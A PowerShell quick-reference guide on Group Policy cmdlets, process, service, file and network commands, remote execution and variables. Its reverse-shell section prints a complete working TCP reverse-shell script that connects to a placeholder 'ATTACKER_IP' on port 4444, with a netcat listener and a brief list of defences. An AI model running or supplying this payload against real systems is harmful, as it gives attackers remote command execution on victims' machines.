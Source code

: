 # PowerShell Quick Reference

This concise guide covers essential PowerShell commands for Group Policy management, understanding reverse shells, and other core system administration and security activities.

## 1. Group Policy Objects (GPOs)

GPOs are central to managing Windows environments. PowerShell cmdlets from the `ActiveDirectory` and `GroupPolicy` modules (requires RSAT) streamline their administration.

* **Retrieve GPOs:**
    ```powershell
    # Get a specific GPO by name
    Get-GPO -Name "Default Domain Policy"

    # Get all GPOs
    Get-GPO -All
    ```

* **Create a New GPO:**
    ```powershell
    New-GPO -Name "MyNewConfigGPO" -Comment "Custom settings for my team"
    ```

* **Link a GPO to an OU/Domain:**
    ```powershell
    # Link 'MyNewConfigGPO' to the 'Marketing' OU in example.com
    New-GPLink -Name "MyNewConfigGPO" -Target "OU=Marketing,DC=example,DC=com" -Enforced Yes
    ```

* **Modify GPO Settings (Conceptual):**
    * Directly modifying settings within a GPO requires more advanced scripting, often using `Set-GPRegistryValue` or `Set-GPPrefRegistryValue` for registry-based settings, or importing/exporting GPO settings.
    ```powershell
    # Example: Set a registry value within a GPO (requires specific parameters)
    # Set-GPRegistryValue -Name "MyNewConfigGPO" -Key "HKLM\Software\MyApp" -ValueName "Setting" -Value "1" -Type DWord
    ```

* **Remove GPO Link:**
    ```powershell
    Remove-GPLink -Name "MyNewConfigGPO" -Target "OU=Marketing,DC=example,DC=com"
    ```

## 2. Reverse Shells (Cybersecurity - Understanding & Defense)

A reverse shell is a connection initiated from a target machine back to an attacker's listening machine. For defenders, understanding how they work is crucial. Attackers often use PowerShell due to its native presence on Windows.

**Disclaimer:** The following is for educational purposes only, to understand how such commands *could* be structured. **Do not use this for malicious activities.**

* **Basic PowerShell Reverse Shell (Conceptual):**
    This example uses a simple TCP connection. A more robust shell would involve more complex logic, error handling, and often encryption.
    ```powershell
    # On Attacker's Machine: Set up a Netcat listener (e.g., nc -lvnp 4444)

    # On Victim's Machine (PowerShell):
    # Replace 'ATTACKER_IP' and 'PORT' with actual values
    # This command attempts to create a TCP client and send cmd.exe output back.
    # It's highly simplified and for conceptual understanding of the connection flow.
    $client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP', 4444);
    $stream = $client.GetStream();
    [byte[]]$bytes = 0..65535|%{0};
    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String);
        $sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
        $stream.Write($sendbyte,0,$sendbyte.Length);
        $stream.Flush();
    }
    $client.Close();
    ```
* **Defensive Measures:**
    * **PowerShell Logging:** Enable Script Block Logging and Module Logging via GPO to capture executed commands.
    * **Network Monitoring:** Look for unusual outbound connections.
    * **Endpoint Detection and Response (EDR):** Use EDR solutions to detect suspicious PowerShell behavior.
    * **Execution Policy:** While not a security boundary, `RemoteSigned` or `AllSigned` can deter simple script execution.

## 3. Other Key Activities

### Process & Service Management

* **List Processes:**
    ```powershell
    Get-Process -Name "chrome"
    ```
* **Stop a Process:**
    ```powershell
    Stop-Process -Name "notepad" -Force
    ```
* **List Services:**
    ```powershell
    Get-Service -DisplayName "*Windows Update*"
    ```
* **Start/Stop a Service:**
    ```powershell
    Start-Service -Name "Spooler"
    Stop-Service -Name "Spooler"
    ```

### File & Network Operations

* **Download a File:**
    ```powershell
    Invoke-WebRequest -Uri "[https://example.com/file.exe](https://example.com/file.exe)" -OutFile "C:\temp\downloaded_file.exe"
    ```
* **Copy a File:**
    ```powershell
    Copy-Item -Path "C:\source\document.txt" -Destination "\\Server\Share\document.txt"
    ```
* **Test Network Connectivity:**
    ```powershell
    Test-Connection -ComputerName "google.com" -Count 2
    ```
* **Resolve DNS Name:**
    ```powershell
    Resolve-DnsName -Name "[www.microsoft.com](https://www.microsoft.com)"
    ```

### Remote Execution & Event Logs

* **Run Command on Remote Computer (Requires PowerShell Remoting enabled):**
    ```powershell
    Invoke-Command -ComputerName "RemotePC01" -ScriptBlock { Get-EventLog -LogName System -Newest 5 }
    ```
* **Get Event Log Entries:**
    ```powershell
    # Get last 10 security events with ID 4624 (Successful Logon)
    Get-WinEvent -LogName Security -FilterXPath "*[System[(EventID=4624)]]" -MaxEvents 10
    ```

## Important PowerShell & Windows Facts

* **Cmdlet Structure:** Always `Verb-Noun` (e.g., `Get-Process`, `Set-Item`).
* **Piping (`|`):** Send output of one command as input to another.
* **Execution Policy:** Controls script execution. Check with `Get-ExecutionPolicy`, change with `Set-ExecutionPolicy`. `RemoteSigned` is a common choice for security vs. usability.
* **PowerShell Remoting:** Essential for remote administration (`Enable-PSRemoting`, `Invoke-Command`, `Enter-PSSession`).
* **Logging:** Critical for security. Windows Event Forwarding and PowerShell logging (Script Block Logging, Module Logging) provide visibility into activity.

### How Variables Work

Variables are used to store data in PowerShell, making your scripts more dynamic and readable. They always start with a dollar sign (`$`).

* **Declaration & Assignment:** You declare and assign a value to a variable using the `=` operator.
    ```powershell
    $myString = "Hello, World!"  # Stores a text string
    $myNumber = 123              # Stores an integer
    $myBoolean = $true           # Stores a boolean (true/false)
    $myDate = Get-Date          # Stores the output of a cmdlet (a DateTime object)
    ```

* **Accessing Variable Values:** To use the value stored in a variable, simply refer to its name.
    ```powershell
    Write-Host $myString         # Outputs: Hello, World!
    ```

* **Variable Types:** PowerShell automatically infers the data type, but you can explicitly cast it if needed.
    ```powershell
    [int]$anotherNumber = "456"  # Forces the variable to be an integer
    $anotherNumber.GetType().Name # Outputs: Int32
    ```

* **String Expansion (Interpolation):** Variables inside double quotes (`" "`) are expanded to their values. Variables inside single quotes (`' '`) are treated literally.
    ```powershell
    $name = "Alice"
    Write-Host "Hello, $name!"    # Outputs: Hello, Alice!
    Write-Host 'Hello, $name!'    # Outputs: Hello, $name!
    ```

* **Special Variables:** PowerShell has built-in variables that provide useful information about the environment or the current operation.
    * `$_`: Represents the current object in the pipeline or loop.
    * `$PSVersionTable`: Contains details about the PowerShell version and host.
    * `$Error`: An array of recent error messages.
    * `$null`: Represents an empty or undefined value.
    ```powershell
    # Example using $_ in a pipeline
    Get-Service | Where-Object {$_.Status -eq "Running"} | Select-Object Name
    ```
